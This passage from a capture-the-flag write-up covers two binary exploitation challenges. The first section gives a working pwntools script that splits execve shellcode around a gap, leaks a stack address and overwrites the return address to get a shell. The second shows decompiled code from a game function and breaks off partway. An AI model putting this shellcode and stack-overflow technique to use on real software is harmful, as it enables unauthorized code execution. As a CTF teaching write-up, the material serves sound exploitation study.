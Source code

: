 This challenge tests our ability to write shellcode. There's nothing special except:
```c
__int64 node2; // [rsp+8h] [rbp-38h]
char *node1_pointer; // [rsp+20h] [rbp-20h]
__int64 node1; // [rsp+28h] [rbp-18h]
```

which means that there's a gap between out shellcode. Bypass it via `jmp`.

```python
from pwn import *

p = process("./shellpointcode")


shellcode1 = "\x31\xf6\x90\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\xeb\x11"
shellcode2 = "\xf7\xe6\x50\x53\x54\x5f\xb0\x3b\x0f\x05"



p.sendlineafter(":", shellcode2)
p.sendlineafter(":", shellcode1)
p.recvuntil(": \n")
leak = p.recvline().split(": ")[1][:-1]
leak = int(leak, 16) + 8
print hex(leak)

offset = "1234567890A"
gdb.attach(p)
p.sendlineafter("?", offset + p64(leak))

p.interactive()
```

## Double Trouble

Program Overview:
```c
int game()
{
  int v0; // esi
  long double _sum; // fst7
  long double _max; // fst7
  long double _min; // fst7
  int _index; // eax
  int _max_try; // [esp+Ch] [ebp-21Ch]
  int i; // [esp+10h] [ebp-218h]
  char *s; // [esp+14h] [ebp-214h]
  double _array[64]; // [esp+18h] [ebp-210h]
  unsigned int v10; // [esp+21Ch] [ebp-Ch]

  v10 = __readgsdword(0x14u);
  printf("%p\n", _array);
  printf("How long: ");
  __isoc99_scanf((int)"%d", (int)&_max_try);
  getchar();
  if ( _max_try > 64 )
  {
    printf("Flag: hahahano. But system is at %d", &system);
    exit(1);
  }
  i = 0;
  while ( i < _max_try )
  {
    s = (char *)malloc(0x64u);
```